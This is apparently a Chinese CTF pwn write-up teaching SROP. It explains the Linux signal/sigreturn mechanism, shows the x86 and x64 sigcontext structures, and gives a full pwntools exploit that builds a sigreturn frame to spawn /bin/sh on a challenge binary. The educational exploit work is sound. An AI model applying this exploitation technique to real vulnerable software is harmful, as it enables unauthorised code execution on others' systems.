 SQCTF的 当时只道是寻常 [SQCTF-PWN-CrazyCat](https://hnusec-team.feishu.cn/docx/NNWUdbFanoUB0wxUSK9cZHJinIb#share-S57gd77RFox1sAxsDmxcjhzon4g)

TGCTF 的 norop [TGCTF-PWN-CrazyCat](https://hnusec-team.feishu.cn/docx/JsIsd70Dmo0z4BxIalkcE95anCh#share-Pll1dM7sNoOcncxZxsLc7KMxnhb)

之前就听队里师傅问我SROP学了没，这次刚好有个契机就学了

SROP(Sigreturn Oriented Programming)，简单来说就是通过系统调用号为0xf(sigreturn)的系统调用执行一个可以将所有寄存器赋值的函数来实现对所有寄存器的控制，从而直接执行某个函数的操作。

# Signal 机制

signal 机制是类 unix 系统中进程之间相互传递信息的一种方法。一般，我们也称其为软中断信号，或者软中断。比如说，进程之间可以通过系统调用 kill 来发送软中断信号。一般来说，信号机制常见的步骤如下图所示：

![[Pasted image 20250427151753.png]]

1. 内核向某个进程发送 signal 机制，该进程会被暂时挂起，进入内核态。
2. 内核会为该进程保存相应的上下文，**主要是将所有寄存器压入栈中，以及压入 signal 信息，以及指向 sigreturn 的系统调用地址**。此时栈的结构如下图所示，我们称 ucontext 以及 siginfo 这一段为 Signal Frame。**需要注意的是，这一部分是在用户进程的****地址空间****的。**之后会跳转到注册过的 signal handler 中处理相应的 signal。因此，当 signal handler 执行完之后，就会执行 sigreturn 代码。
对于 signal Frame 来说，会因为架构的不同而有所区别，这里给出分别给出 x86 以及 x64 的 sigcontext
- x86
```Plain
struct sigcontext{  
    unsigned short gs, __gsh;  
    unsigned short fs, __fsh;  
    unsigned short es, __esh;  
    unsigned short ds, __dsh;  
    unsigned long edi;  
    unsigned long esi;  
    unsigned long ebp;  
    unsigned long esp;  
    unsigned long ebx;  
    unsigned long edx;  
    unsigned long ecx;  
    unsigned long eax;  
    unsigned long trapno;  
    unsigned long err;  
    unsigned long eip;  
    unsigned short cs, __csh;  
    unsigned long eflags;  
    unsigned long esp_at_signal;  
    unsigned short ss, __ssh;  
    struct _fpstate * fpstate;  
    unsigned long oldmask;  
    unsigned long cr2;
};
```
- x64
```Plain
struct _fpstate{  
    /* FPU environment matching the 64-bit FXSAVE layout.  */  
    __uint16_t        cwd;  
    __uint16_t        swd;  
    __uint16_t        ftw;  
    __uint16_t        fop;  
    __uint64_t        rip;  
    __uint64_t        rdp;  
    __uint32_t        mxcsr;  
    __uint32_t        mxcr_mask;  
    struct _fpxreg    _st[8];  
    struct _xmmreg    _xmm[16];  
    __uint32_t        padding[24];
};
struct sigcontext{  
    __uint64_t r8;  
    __uint64_t r9;  
    __uint64_t r10;  
    __uint64_t r11;  
    __uint64_t r12;  
    __uint64_t r13;  
    __uint64_t r14;  
    __uint64_t r15;  
    __uint64_t rdi;  
    __uint64_t rsi;  
    __uint64_t rbp;  
    __uint64_t rbx;  
    __uint64_t rdx;  
    __uint64_t rax;  
    __uint64_t rcx;  
    __uint64_t rsp;  
    __uint64_t rip;  
    __uint64_t eflags;  
    unsigned short cs;  
    unsigned short gs;  
    unsigned short fs;  
    unsigned short __pad0;  
    __uint64_t err;  
    __uint64_t trapno;  
    __uint64_t oldmask;  
    __uint64_t cr2;  
    extension union    {      
        struct _fpstate * fpstate;      
        __uint64_t __fpstate_word;    
        };  
    __uint64_t __reserved1 [8];
};
```
![[Pasted image 20250427151907.png]]
3. signal handler 返回后，内核为执行 sigreturn 系统调用，为该进程恢复之前保存的上下文，其中包括将所有压入的寄存器，重新 pop 回对应的寄存器，最后恢复进程的执行。其中，32 位的 sigreturn 的调用号为 119(0x77)，64 位的系统调用号为 15(0xf)。
# 利用

`SROP`的利用很简单，只需要攻击者可以控制栈空间，即可以向栈空间写入大量（长度至少包含构造的`fake frame`)数据，**然后控制****`rsp`****指向存有我们构造的****`fake frame`****，并控制****`rax`****为****`0xf`****，然后执行****`syscall`****就可以实现****`srop`****的攻击。**

注意是控制`rsp`指向`fake frame`的头部，其他指针除了`rax`外应该都无所谓。

实际构造时发现可能有些非寄存器的位置非零也不影响最后的执行，具体哪些还没细探究过，目前只知道最后两个位置应该不影响

`Fake frame`的构造`pwntools`库有现现成的，可以直接构造

```Python
frame1 = SigreturnFrame()
frame1.rax = constants.SYS_execve
frame1.rdi = binsh
frame1.rsi = 0
frame1.rdx = 0
frame1.rip = 0x401045
```

这边用一题来举例

暂时无法在飞书文档外展示此内容

程序很简单

![](https://hnusec-team.feishu.cn/space/api/box/stream/download/asynccode/?code=OTNmYzkzNDM1NWMxZmQ4MGViODQ3NTkxOWQ5ZjZkNjdfMncxdXR3UHVjREl4M0VIcWMzdEFhNFFpU1l3UndFZjVfVG9rZW46RGcwRmJlYm5KbzNTZFh4SmpsbmMzN2ZRblRkXzE3NDUxMzc2NTI6MTc0NTE0MTI1Ml9WNA)

可以看到用`syscall`构造了三个函数，中间`read`，前后`write`，可以控制`rsi`，但无法控制`rdi`，有`0x400`的`read`，足够构造`SROP`链。

```Python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
local = True
debug = True
if local:
    p = process('./pwn01')
    if debug:
        gdb.attach(p, gdbscript='b main')
else:
    ip ,port = "challenge.qsnctf.com:32442".split(":")
    p = remote(ip, port)

pop_rax = 0x40104a
binsh = 0x40203a
syscall = 0x40101d

frame1 = SigreturnFrame()
frame1.rax = constants.SYS_execve
frame1.rdi = binsh
frame1.rsi = 0
frame1.rdx = 0
frame1.rip = 0x401045

payload = p64(0)
payload += p64(pop_rax)
payload += p64(0xf)
payload += p64(0x401042)
payload += bytes(frame1)
p.send(payload)

p.interactive()
```

这里我们直接贴 exp，结合 exp 讲

程序是直接有`binsh`的地址的，那么我们只需要构造 SROP，把他读入到栈上然后`syscall`就可以，那么要考虑的就是控制`rsi`的值，控制`rsi`的值就要用到最后一个`syscall`前面的`mov rsi, rsp;` rsp 始终是指向栈上的，那么我们只需要控制执行`syscall`的时候`rsp`刚好是我们构造的`fake frame`前面即可，这是很好做到的。

![](https://hnusec-team.feishu.cn/space/api/box/stream/download/asynccode/?code=Njk0MWZmYmE4MmM2ZjFmYWE4MTc1M2EzM2YyZjNmNmZfbVY4NFJsT2xaNnRSbTlMdldiSXdUMmVSNkNFcmtRZkJfVG9rZW46Wk5memJEODhGb3BmODV4TktKRmN0RGtublllXzE3NDUxMzc2NTI6MTc0NTE0MTI1Ml9WNA)

可以看到根据我们的 exp，`0x7ffd226a2338`处开始就是我们的`fake frame`，

![](https://hnusec-team.feishu.cn/space/api/box/stream/download/asynccode/?code=MGI0ZWE5ZGJjZjJiZjg2YjEzOGM0ZjZmNmU4ZWNkYWNfV3dUMTN0V245R1V3NVl1U0lCVTBUZ3lMa1dBeDJGanBfVG9rZW46VDV2eGIzWjlWb3RUalB4SXhZYmM5RDdpbmhlXzE3NDUxMzc2NTI6MTc0NTE0MTI1Ml9WNA)

执行到`syscall`的时`rsi`已经指向了`fake frame`的顶部，可以开始SROP

![](https://hnusec-team.feishu.cn/space/api/box/stream/download/asynccode/?code=ZGM4NTQ3MmFlNDFkNGMwZTc1NTJkZTlkMjU2OGQwYmZfUGpBSzhFUldFYnJndWFzRFROeXJ3U2p1andXaUg2eXBfVG9rZW46RUMzZmJra3ZFb0RpakN4OERXN2NCMlhIblhjXzE3NDUxMzc2NTI6MTc0NTE0MTI1Ml9WNA)

实际就可以根据我们构造的寄存器来执行`system("/bin/sh")`。